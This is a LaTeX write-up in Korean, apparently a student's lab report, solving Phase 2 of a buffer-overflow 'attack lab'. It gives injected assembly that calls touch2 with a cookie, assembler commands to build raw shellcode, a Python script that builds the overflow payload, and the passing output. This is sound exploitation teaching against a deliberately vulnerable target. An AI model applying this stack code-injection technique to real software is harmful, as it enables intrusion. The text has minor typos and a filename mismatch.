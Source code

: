 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 2}
Phase 2를 해결하기 위해서는 \texttt{touch2} 항수를 실행해야 하는데, phase 1과는
달리 edi 레지스터에 cookie 값이 있어야 한다는 차이점이 있다. 이 때문에 단순히
리턴 주소를 \texttt{touch2} 함수의 것으로 덮는 대신, 스택에 edi 래지스터에 값을
쓰는 코드를 입력하고 \texttt{touch2} 함수를 call 하는 코드를 입혁한 뒤 스택에
있는 코드로 리턴하도록 해야 한다. 스택에 덮어쓸 어셈블리 코드는 다음과 같이
작성할 수 있다.
\begin{lstlisting}
.section .text
.globl start
start:
mov $0x3e52dff5, %edi
mov $0x401879, %rax
callq *%rax
\end{lstlisting}
이 코드를 ELF 헤더 등이 없는 raw binary 형태의 코드로 컴파일하기 위해, 다음
명령어를 사용하였다. 어셈블리 코드를 \texttt{phase3\_code.S}에 저장하였다.
\begin{lstlisting}
$ as -o phase2_code.o phase2_code.S
$ ld -e start --oformat binary -o phase2_code.bin phase2_code.o
\end{lstlisting}
위 명령어를 실행하면 \texttt{phase2\_code.bin} 파일을 얻을 수 있고, 이 파일의
내용을 스택에 덮어쓰면 된다. \texttt{getbuf} 함수의 \texttt{ret} 명령어가
실행되는 순간에 \texttt{rsp} 값은 \texttt{0x55629f40}이기 때문에, 리턴 주소를
\texttt{0x55629f48}로 설정한 뒤 주소 뒤에 앞서 얻은 \texttt{phase2\_code.bin}
파일의 내용을 붙이면 공격을 위한 input string을 만들 수 있다. Input string을
만드는 코드는 다음과 같다.
\begin{lstlisting}[language=Python]
import struct

with open("phase2_payload.bin", "wb") as outfile, open(
    "phase2_code.bin", "rb"
) as infile:
    outfile.write(b"A" * 0x18)
    outfile.write(struct.pack("<q", 0x55629F48))
    outfile.write(infile.read())
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase2\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase2_payload.bin
Cookie: 0x3e52dff5
Type string:Touch2!: You called touch2(0x3e52dff5)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
